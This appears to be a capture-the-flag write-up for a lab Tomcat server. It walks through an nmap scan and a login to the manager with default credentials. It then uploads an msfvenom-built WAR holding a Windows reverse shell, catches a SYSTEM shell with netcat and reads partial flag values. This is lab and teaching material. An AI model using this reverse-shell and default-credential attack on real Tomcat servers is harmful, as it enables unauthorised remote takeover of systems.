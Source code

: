 ```
nmap -sV -sC {target ip}
```

An `nmap` search reveals Apache Tomcat is running on port `8080`. Visiting the website via a browser reveals the default installation of Apache Tomcat, and the signin with the default credentials `tomcat:s3cret` work to signin.

After signing in there is a button "WAR file to deploy", where you can browse the local filesystem to upload a WAR file. 

A WAR (Web application Resource) file is a single file container that holds all the potential files necessary for a Java-based web application, like Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

I will create a WAR file to upload with `msfvenom`, that will have a Windows reverse shell that will be caught by my `netcat` listener running locally.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > rev_shell-9002.war
```
I use `jar` to list the contents of the war file:

```
$ jar -ft rev_shell-900=2.war
META-INF/ 
META-INF/
MANIFEST.MF WEB-INF/ 
WEB-INF/web.xml 
ppaejmsg.jsp
```

I run the reverse shell by hitting it with `curl`

```
$ curl http://10.10.10.95:8080/rev_shell-9002/ppaejmsg.jsp
```

```
$ nc -lnvp 9002

...

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

So we have root access on this box, running the following commands will get us our flags:

```
C:\Users\Administrator\Desktop>dir

C:\Users\Administrator\Desktop>cd flags

C:\Users\Administrator\Desktop\flags>dir

06/19/2018 07:09 AM <DIR> . 
06/19/2018 07:09 AM <DIR> .. 
06/19/2018 07:11 AM 88 2 for the price of 1.txt

C:\Users\Administrator\Desktop\flags>type 2*

user.txt 7004dbce... root.txt 04a8b36e...
```



